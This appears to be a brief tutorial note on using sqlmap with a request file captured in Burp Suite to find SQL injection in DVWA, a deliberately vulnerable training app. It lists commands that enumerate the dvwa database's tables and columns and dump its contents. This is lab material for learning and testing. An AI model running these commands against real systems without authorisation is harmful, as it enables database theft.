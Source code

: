 
Used for finding SQL Injection vulnerabilities

DVWA > UserID = 1 > Submit (check the URL)

We can use BUrp Suite to get the payload and save it to a txt file and use this file on SQLMAP

**Command to run the tool using request file**

sqlmap -r "SavedRequestFile.txt" --dbs

sqlmap -r "SavedRequestFile.txt" -D dvwa

sqlmap -r "SavedRequestFile.txt" -D dvwa --tables

sqlmap -r "SavedRequestFile.txt" -D dvwa --tables --columns

sqlmap -r "SavedRequestFile.txt" -D dvwa --dump

